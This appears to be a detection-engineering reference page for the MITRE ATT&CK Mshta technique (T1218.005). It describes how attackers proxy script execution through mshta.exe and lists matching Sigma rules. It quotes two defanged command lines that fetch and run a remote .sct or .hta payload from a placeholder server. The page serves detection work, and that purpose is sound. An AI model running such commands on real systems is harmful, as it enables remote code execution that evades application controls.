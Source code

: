 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: Mshta 

Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1218.005


# Test : Mshta used to Execute PowerShell
## OS
  - windows


## Description:
Use Mshta to execute arbitrary PowerShell. Example is from the 2021 Threat Detection Report by Red Canary.


## Executor
command_prompt

# Sigma Rule
 - win_susp_mshta_pattern.yml (id: e32f92d1-523e-49c3-9374-bdb13b46a3ba)

 - win_susp_mshta_execution.yml (id: cc7abbd0-762b-41e3-8a26-57ad50d2eea3)

 - win_susp_powershell_parent_process.yml (id: 754ed792-634f-40ae-b3bc-e0448d33f695)

 - win_mshta_spawn_shell.yml (id: 03cc0c25-389f-4bf8-b48d-11878079f1ca)

 - win_shell_spawn_mshta.yml (id: 772bb24c-8df2-4be0-9157-ae4dfa794037)

 - win_non_interactive_powershell.yml (id: f4bbd493-b796-416e-bbf2-121235348529)



[back](../index.md)
